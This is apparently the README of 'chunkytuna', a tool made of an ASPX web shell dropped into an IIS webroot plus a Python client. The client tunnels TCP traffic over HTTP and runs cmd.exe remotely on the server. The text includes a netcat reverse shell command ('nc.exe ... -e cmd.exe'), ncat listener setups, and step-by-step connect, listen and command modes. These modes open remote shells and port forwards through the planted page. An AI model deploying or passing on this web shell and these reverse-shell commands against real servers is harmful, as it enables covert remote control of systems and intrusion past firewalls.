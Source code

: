 Usage
=====

Just drop the file in the webroot.

Tested with: Windows Server 2012 + IIS. 


Testing
=======

Installation and configuration
------------------------------

 1. Download and run a windows server evaluation version
 1. Install IIS and ASP.NET

Virtualbox-specific instructions:

 1. mount this directory as a shared folder
 2. configure virtualbox to use host-only networking, then

	ifconfig vboxnet0 192.168.56.1
	iptables -i vboxnet0 -A INPUT -p tcp --dport 12345 -j ACCEPT

 3. run a reverse shell so it's easy to restart the server (for testing)

	nc.exe 192.168.56.1 12345 -e cmd.exe

 4. to copy chunkytuna aspx into wwwroot use:

	a.bat 
 
 The batch file copies 'chunkytuna.aspx' into C:\inetpub\wwwroot\ and restarts IIS

Quickstart in Connect mode
--------------------------

 5. Make sure your firewall allows inbound connections...

	iptables -i vboxnet0 -A INPUT -p tcp --dport 1234 -j ACCEPT

 6. Run a listener on the host:

    ncat -lnkvp localhost 1234

 7. Run chunktuna:

    python chunkytuna.py http://192.168.56.101:80/chunkytuna.aspx C -t 192.168.56.1:1234 -r 127.0.0.1:12346 -d
 
 8. Connect to chunkytuna:

    ncat localhost 12346

Or use ssh:

    # (make sure virtualbox can connect to port 22 of the host and that sshd is running...)
    python chunkytuna.py http://192.168.56.101:80/chunkytuna.aspx C -t 192.168.56.1:22 -r 127.0.0.1:12346
    ssh localhost -p 12346


Quickstart in listening mode:
-----------------------------

    # bind to 0.0.0.0:1234 (on the windows server)
    python3 chunkytuna.py http://192.168.56.101:80/chunkytuna.aspx L -t 0.0.0.0:12345 -r 127.0.0.1:1234
    # then open a listener locally
    ncat -lnvkp 1234
    # then connect to the remote
    ncat 192.168.56.101 12345
    # python will connect to port 1234 and transmit data

Command mode:
-------------

    python3 chunkytina.py http://192.168.56.101:80/chunkytuna.aspx X -t "cmd.exe" -r 127.0.0.1:12345
    nc localhost 12345
